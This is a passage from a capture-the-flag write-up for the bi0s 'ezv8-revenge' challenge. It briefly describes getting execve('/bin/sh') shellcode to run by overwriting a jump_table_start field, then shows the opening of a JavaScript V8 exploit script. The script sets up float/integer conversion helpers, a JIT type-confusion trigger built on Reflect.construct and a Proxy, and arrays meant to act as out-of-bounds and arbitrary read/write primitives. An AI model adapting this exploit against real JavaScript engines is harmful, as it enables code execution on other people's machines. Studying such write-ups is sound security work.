 Now that we have all the pieces we need, we could start creating `execve('/bin/sh')`
shellcode and update our initial solve script. The starting location of the shellcode
is consistent accross multiple run (but differs between debug and release version).
Hence, we could just observe and use it when overwriting `jump_table_start` field.

## Final Solve Script

The solve script and other helper files could be found on this [link](https://github.com/d0UBleW/ctf/tree/main/bi0s/pwn/ezv8-revenge)

```js
let conversion_buffer = new ArrayBuffer(8);
let float_view = new Float64Array(conversion_buffer);
let int_view = new BigUint64Array(conversion_buffer);

function itof(i) {
    int_view[0] = i
    return float_view[0]
}

function ftoi(f) {
    float_view[0] = f
    return int_view[0]
}

function lo(x) {
    return x & BigInt(0xffffffff)
}

function hi(x) {
    return (x >> 32n) & BigInt(0xffffffff)
}

function hex(i) {
    return "0x" + i.toString(16)
}

THRESHOLD = 0x2000

function f(p) {
    a.push(Reflect.construct(function(){}, arguments, p)?4.1835592388585281e-216:0); // itof(0x1337133700010000)
}

let a;
let oob_arr;
let obj_leaker;
let c_aar_arr;
let c_aaw_arr;

let jitted = false

let p = new Proxy(Object, {
    get: function() {
        if (jitted) {
            a[0] = {};
            oob_arr = Array(1);
            oob_arr[0] = 1.1;
            obj_leaker = [a];
            c_aar_arr = [2.2];
            c_aaw_arr = [3.3];
        }
        return Object.prototype;
    }
```